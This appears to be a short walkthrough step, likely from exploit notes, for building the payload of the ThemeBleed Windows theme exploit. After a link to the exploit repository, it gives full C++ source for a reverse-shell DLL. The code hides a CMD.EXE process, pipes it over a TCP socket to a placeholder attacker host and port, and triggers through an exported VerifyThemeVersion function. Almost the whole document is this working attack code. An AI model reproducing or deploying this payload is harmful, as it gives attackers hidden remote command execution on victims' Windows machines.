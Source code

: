 > https://github.com/gabe-k/themebleed

Create a new `C++ Console Application`.

### rev.cpp

Source Files > Add > New Item...

```cpp
#include "pch.h"
#include <stdio.h>
#include <string.h>
#include <process.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdlib.h>
#pragma comment(lib, "Ws2_32.lib")
#include "rev.h"
using namespace std;

void rev_shell()
{
  FreeConsole();

  const char* REMOTE_ADDR = "<LHOST>";
  const char* REMOTE_PORT = "<LPORT>";

  WSADATA wsaData;
  int iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
  struct addrinfo* result = NULL, * ptr = NULL, hints;
  memset(&hints, 0, sizeof(hints));
  hints.ai_family = AF_UNSPEC;
  hints.ai_socktype = SOCK_STREAM;
  hints.ai_protocol = IPPROTO_TCP;
  getaddrinfo(REMOTE_ADDR, REMOTE_PORT, &hints, &result);
  ptr = result;
  SOCKET ConnectSocket = WSASocket(ptr->ai_family, ptr->ai_socktype, ptr->ai_protocol, NULL, NULL, NULL);
  connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
  si.wShowWindow = SW_HIDE;
  si.hStdInput = (HANDLE)ConnectSocket;
  si.hStdOutput = (HANDLE)ConnectSocket;
  si.hStdError = (HANDLE)ConnectSocket;
  TCHAR cmd[] = TEXT("C:\\WINDOWS\\SYSTEM32\\CMD.EXE");
  CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  CloseHandle(pi.hThread);
  WSACleanup();
}

int VerifyThemeVersion(void)
{
  rev_shell();
  return 0;
}
```
